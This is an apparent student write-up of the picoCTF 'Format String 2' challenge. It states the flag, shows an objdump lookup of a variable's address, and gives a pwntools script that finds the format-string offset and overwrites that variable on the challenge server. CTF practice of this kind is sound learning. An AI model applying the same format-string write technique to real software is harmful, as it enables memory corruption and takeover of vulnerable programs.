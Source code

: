 # Format String 2

**Flag:** `picoCTF{f0rm47_57r?_f0rm47_m3m_d42f4d8d}`

- **step 1**

    This challenge required us to change the value of a variable, and to do that i first needed the address of the variable.

    To do this, i used `objdump -D vuln` and searched for the variable name `sus`, and found this:

    `0000000000404060 <sus>` 

    The value that sus would be compared to was `0x67616c66` which when converted to characters is `galf` which i assumed like the previous question, was actually reversed due to how memory works so it might be flag instead.

- **step 2**

    Now to actually put the value we have into the address we also have.

    Due to solving Scrambled RSA, i knew about pwntools and considered using that, luckily they had a page specifically for such problems

    I found this function 
    
    `pwnlib.fmtstr.fmtstr_payload(offset, writes, numbwritten=0, write_size='byte')→ str` 
    
    which seemed perfect for this task.

    ```python
    from pwn import *

    context.binary = ELF('./vuln')

    p = remote('rhea.picoctf.net', 58895)

    def exec_fmt(payload):
        p = remote('rhea.picoctf.net', 58895)
        p.sendline(payload)
        return p.recvall()

    autofmt = FmtStr(exec_fmt)
    offset = autofmt.offset

    payload = fmtstr_payload(offset, {0x404060: 0x67616c66})

    p.sendline(payload)

    flag = p.recvall()

    print("Flag: ", flag)
    ```

**What I learned:**

1. How to disassemble  a binary using objdump

**Other incorrect methods I tried:**

- I also tried using write() method.

**References**

- https://docs.pwntools.com/en/stable/fmtstr.html